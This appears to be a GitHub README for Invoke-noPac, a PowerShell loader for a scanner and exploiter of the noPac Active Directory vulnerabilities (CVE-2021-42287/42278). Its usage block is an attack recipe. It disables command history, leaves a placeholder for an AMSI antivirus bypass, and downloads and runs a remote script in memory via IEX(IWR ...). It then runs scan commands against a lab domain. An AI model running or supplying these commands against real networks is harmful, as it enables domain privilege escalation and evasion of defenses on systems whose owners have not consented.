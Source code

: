 # Invoke-noPac

## The .Net assembly is based on my fork https://github.com/ricardojba/noPac that has a few code changes to improve upon the original.

.Net Assembly loader for the CVE-2021-42287/CVE-2021-42278 Scanner & Exploiter (https://github.com/cube0x0/noPac), PowerSharpPack (https://github.com/S3cur3Th1sSh1t/PowerSharpPack) style.

Usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-noPac/main/Invoke-noPac.ps1')

Invoke-noPac
Invoke-noPac -Command "scan -domain htb.local -user domain_user -pass 'Password123!'"
Invoke-noPac -Command "scan -domain htb.local -user domain_user -pass 'Password123!' /enctype rc4"
```
